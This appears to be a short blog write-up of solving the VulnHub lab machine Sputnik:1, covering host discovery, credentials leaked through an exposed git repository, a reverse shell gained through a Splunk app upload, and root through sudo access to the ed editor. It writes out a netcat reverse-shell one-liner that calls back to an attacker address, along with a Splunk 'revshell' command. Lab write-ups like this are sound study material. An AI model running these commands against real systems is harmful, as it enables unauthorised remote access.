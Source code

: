```yaml
---
layout: post
---
```


# [VulnHub] Sputnik:1 WriteUp

I solved boot2root machine today.Machine level was easy.
It was fun machine.Lets start

### Tools

* netdiscover
* nmap
* git
* nc
* ed (for root)

### Steps

I detected target ip : `netdiscover -r 192.168.88.0/24` . Network adapterwas Nat mode.

![deneme](/img/sputnik/1.png)

And I did nmap scanning to see what happen is it have network side.
I found `.git` directory on port `55555` .Maybe I can find credential .

![deneme](/img/sputnik/2.png)

I looked for  git directory deeply and I found repository address.

![deneme](/img/sputnik/3.png)

I downloaded the repo to my pc .And I searched the directory .

![deneme](/img/sputnik/4.png)

I decided to look logs . And I saw different tag : `secret` .

![deneme](/img/sputnik/5.png)

I went to commit And I saw something like creds.

![deneme](/img/sputnik/6.png)

I tried the creds on login page and I could login.

![deneme](/img/sputnik/7.png)

When I logon the server I saw `splunk` name and searched in google for how I get reverse shell.
I gone the first link and I did what there is wrights on readme page . 

![deneme](/img/sputnik/8.png)

First one I downloaded `splunk_shells-1.2.tar.gz` file for upload to page.I cliecked `install app from file` .

![deneme](/img/sputnik/9.png)

I selected my file and uploaded .

![deneme](/img/sputnik/10.png)

I fixed permissions settings and I did for `All apps` and saved .

![deneme](/img/sputnik/11.png)

I was need to call the page for get reverse shell and I wrote the line:
`| revshell std my_ip my_port` .

![deneme](/img/sputnik/12.png)

I got reverse shell with `nc` .But the shell didnt work right so I was need to lead the another shell .
So I used the line : `rm /tmp/f;mkinfo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.88.128 1234 >/tmp/f` .

![deneme](/img/sputnik/13.png)

This time worked correctly the shell.And I got connection.And started enumerating os.
I did my favorite enumeration `sudo -l` . I found a command: `/bin/ed` .Honestly I saw first time the command .
So I didnt know anything about that .
![deneme](/img/sputnik/14.png)

It was text editor. I googlied the command rapidly .I didnt find something but I remembered
the tool was like `vim` .And I tried same thing When I use `vim` and worked .I got root and read flag. 

![deneme](/img/sputnik/15.png)

### Summary:

I liked the box .Because there was have `git` and I saw `/bin/ed` first time at least different thing.
Have a good hacks .See you next machines :)

[back](./)